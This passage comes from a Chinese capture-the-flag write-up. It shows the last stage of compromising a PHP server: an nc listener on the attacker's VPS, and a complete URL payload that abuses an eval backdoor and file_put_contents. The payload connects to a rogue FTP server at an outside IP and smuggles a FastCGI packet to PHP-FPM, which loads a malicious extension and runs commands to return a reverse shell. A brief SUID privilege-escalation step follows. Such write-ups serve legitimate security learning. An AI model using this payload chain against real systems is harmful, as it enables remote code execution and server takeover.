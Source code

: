 
[![](assets/1698897074-dddf739db09d96474f3457c262fe4f6d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134750-9689433a-b2e5-1.png)

然后在 vps 上开启一个 nc 监听，用于接收反弹的shell：

[![](assets/1698897074-03d90f28a76427f35b49c919c0e182b8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134750-96a1e7f0-b2e5-1.png)

最后通过 eval() 构造如下恶意代码通过 file\_put\_contents() 与我们 vps 上恶意的 ftp 服务器建立连接：

```plain
/add_api.php?backdoor=$file = $_GET['file'];$data = $_GET['data'];file_put_contents($file,$data);&file=ftp://aaa@47.101.57.72:23/123&data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%02%3F%00%00%11%0BGATEWAY_INTERFACEFastCGI%2F1.0%0E%04REQUEST_METHODPOST%0F%19SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Fadd_api.php%0B%0CSCRIPT_NAME%2Fadd_api.php%0C%0EQUERY_STRINGcommand%3Dwhoami%0B%1BREQUEST_URI%2Fadd_api.php%3Fcommand%3Dwhoami%0C%0CDOCUMENT_URI%2Fadd_api.php%09%80%00%00%B3PHP_VALUEunserialize_callback_func+%3D+system%0Aextension_dir+%3D+%2Ftmp%0Aextension+%3D+hpdoger.so%0Adisable_classes+%3D+%0Adisable_functions+%3D+%0Aallow_url_include+%3D+On%0Aopen_basedir+%3D+%2F%0Aauto_prepend_file+%3D+%0F%0DSERVER_SOFTWARE80sec%2Fwofeiwo%0B%09REMOTE_ADDR127.0.0.1%0B%04REMOTE_PORT9000%0B%09SERVER_ADDR127.0.0.1%0B%02SERVER_PORT80%0B%09SERVER_NAMElocalhost%0F%08SERVER_PROTOCOLHTTP%2F1.1%0E%02CONTENT_LENGTH49%01%04%00%01%00%00%00%00%01%05%00%01%001%00%00%3C%3Fphp+system%28%24_REQUEST%5B%27command%27%5D%29%3B+phpinfo%28%29%3B+%3F%3E%01%05%00%01%00%00%00%00
```

此时当 ftp 建立连接后，会通过被动模式将 payload 重定向到目标主机本地 9001 端口的 PHP-FPM 上，并成功反弹Shell：

[![](assets/1698897074-bb1005645d20204a4c84102084612ec2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134751-96c8a3f4-b2e5-1.png)

后面就是一个 SUID 提权了，利用的是 /usr/local/bin/php，直接进行 PHP 交互模式执行代码获取 flag 即可。

## 未完待续......
